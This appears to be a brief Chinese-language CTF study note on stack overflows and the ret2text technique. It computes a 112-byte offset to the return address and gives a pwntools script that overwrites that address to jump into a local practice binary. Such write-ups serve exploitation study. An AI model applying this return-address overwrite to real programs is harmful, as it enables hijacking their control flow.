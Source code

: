 # pwn



# 栈溢出原理





# ret2text



综上 100字节数组 + 浪费8字节 + 4字节存储寄存器 = 112字节，从s数组距离函数返回地址距离112字节，首先gets输入时，首先填充112字节，在填充4字节返回地址到需要运行的函数



payload

```python
target = 0x0804863A #我们需要操控函数的目标地址
payload = b'A' * 100 + b'B' * 8 + b'C' * 4  + p32(target)  #构造payload攻击载荷
```



完整代码

```python
from pwn import *

sh = process('./ret2text')
target = 0x0804863A
payload = b'A' * 100 + b'B' * 8 + b'C' * 4  + p32(target)
sh.sendline(payload)
sh.interactive()
```

